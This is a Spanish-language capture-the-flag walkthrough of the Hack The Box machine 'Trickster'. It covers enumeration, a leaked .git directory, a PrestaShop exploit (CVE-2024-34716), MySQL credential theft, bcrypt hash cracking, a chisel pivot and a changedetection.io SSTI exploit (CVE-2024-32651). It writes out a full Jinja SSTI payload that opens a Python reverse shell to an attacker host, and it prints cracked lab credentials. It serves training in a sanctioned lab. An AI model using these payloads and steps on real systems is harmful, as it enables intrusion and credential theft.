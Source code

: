 # Trickster

## Reconocimiento

### Enumeracion de puertos
```bash
nmap -sS --min-rate=5000 -p- -Pn 10.10.11.34 -oN PORTS -vvv
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Se encontro el puerto 22 y el 80 abierto pasamos a escanear sus servicios.

### Enumeracion  de servicios

```bash
nmap -sS --min-rate=5000 -p22,80 -sC -sV -n 10.10.11.34 -oN PORTS -vvv
```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
http-title: Did not follow redirect to http://trickster.htb/

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)

En el puerto 80 vemos que tenemos un servicio apache httpd 2.4.52 y un domain name trickster.htb

### Enumarecion de la web
En la pagina principal de trickster no encontramos anda interesante asi que procedemos mas que un link a la shop con un subdomain shop.trickster.htb.

En la shop solo encontramos un email de el admin 'admin@trickster.htb'

Enumerando directorios o entrando a robots.txt encontramos que hay una directorio llamado .git que contiene un directory listing.

Extraemos el directorio con la tool git-dumper

```bash
git-dumper http://shop.trickster.htb/.git ~/trickster/
```
Y vemos los archivos ahi vemos que tenemos una ruta
![ruta](/images/rutaagit.png)

Yendo a la ruta http://shop.trickster.htb/admin634ewutrx1jgitlooaj/

nos encontramos un login y la version de prestashop 8.1.5
![login Prestashop](../trickster/images/login-prestashop.png)

## Explotacion
Buscando sobre la version mencionada nos encontramos con el CVE-2024-34716 y su PoC.

![Link de PoC](https://github.com/aelmokhtar/CVE-2024-34716)
Este Poc afecta 
Solo que debemos hacer algunos cambios

En el exploit.html debemos realizar los siguientes cambios:
![cambios exploit.html](images/modi-exploit-html.png)

Luego en el archivo malicious zip abrimos el file manager hacemos double click y cambiamos de nombre el archivo reverse_shell.php para a.php
dentro del archivo hacemos los respectivos cambios de nuestra ip address y el puerto.
![imagen rename php](images/rename-php-file.png)
![imagen a.php cambios](images/modi-revs-php.png)

Luego dentro del exploit.py continuamos modificamos la ruta de get reverse_shell.php a a.php
![cambios exploit.py](images/modi-exploit-py.png)

y estamos dentro como www-data
![imagen www-data](images/www-data.png)


## Post-Explotacion

Hacemos un cat /etc/passwd y vemos que hay 2 usuarios james y adam los cuales no tenemos acceso todavia.
Enumerando rutas dentro del directorio var nos encontramos con el archivo paramater.php en la ruta ~/prestashop/app/config
Dentro de este archivo podemos visualizar las credenciales del servicio mysql

![imagen creds mysql](images/parameter-file.png)

Procedemos a ingresar a mysql con el usario ps_user y la password prest@shop_o
Vemos que tenemos la database prestashop, eumeramos sus tables y vemos dentro de la table ps_employee

Nos encontramos con dos hashes el de admin y james.
![imagen hashes](images/hash-sql.png)

El hash que desamos extraer es el de james, sabemos que es un bcrypt Blowfish Unix por el "$2*$ asi que procedemos a hacer un brute forcing con hashcat

```bash
hashcat -m 3200 '$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm' /usr/share/wordlists/rockyou.txt
```
Desencriptamos el hash y nos damos con la siguiente password alwaysandforever
Nos conectamos al ssh de james y tenemos la primera flag
![imagen ssh](images/james-shell.png)

Hacemos un escaneo de la red y nos encontramos con un docker corriendo con la ip 172.17.0.2
Asi que hacemos su escaneo descargando nmap en la shell de james

```bash
nmap -p- -Pn --open 172.17.0.2
```
Y nos encontramos con el puerto 5000 abierto.

Procedemos a hacer un portforwarding con chisel.
En nuestra maquina atacante colocamos el siguiente codigo

```bash
chisel server -p <PORT> --reverse
```

Y en la shell de james despues de haber descargado chisel colocamos lo siguiente:

```bash
./chisel cliente <local-ip>:<PORT> R:5000:172.17.0.2:5000
```
Abrimos firefox en el localhost:5000 y nos encontramos con la pagina de login de CHANGEDETECTION.IO y su version v0.45.20

![imagen login docker](images/login-changedetect.png)

Probamos con la password de james y estamos dentro.
Revisando la version del servicio nos encontramos con el CVE-2024-32651 un SSTI esta vulnerabilidad nos permite un RCE.

Para realizarla la explotacion abrimos una segunda shell de james y creamos un servidor en el puerto 8000 con python

```bash
python3 -m http.server 8000
```
Abrimos en listener en nuestra shell.

```
sudo nc -nlvp 4444
```

En la web la seccion de la url colocamos la siguiente url http://172.17.0.1:8000 y clicamos watch

![imagen url web](images/changedetection.png)

Una vez hecho eso entramos a editar y la seccion de notications.
En la parte de notification url list colocamos lo siguiente:
get://<LOCAL-IP>

En el titulo se puede poner cualquier cosa

Y en el notification body el siguiente codigo para la reverse shell:
```bash
{% for x in ().class.base.subclasses() %}{% if "warning" in x.name %}{{ x().module.builtins['_import']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("listen_ip",listen_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'").read() }}{% endif %}{% endfor %}
```
Clicamos save.

Una vez guardado clicamos recheck y dentro de donde tenemos el server python abierto  creamos un index.html

```bash
echo '<!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><title>PoC Server</title></head><body><h1>Root PoC Trigger</h1><p>This is just a placeholder page for triggering the PoC.</p></body></html>' > index.html
```

y clicamos recheck otra vez.

Ya estamos dentro de la maquina docker, ahroa dentro de la maquina docker escibimos history para ver la hsitoria de los commandos y encontramos la pass de root

Hacemos ssh a root y colocamos la password y ya tenemos total acceso.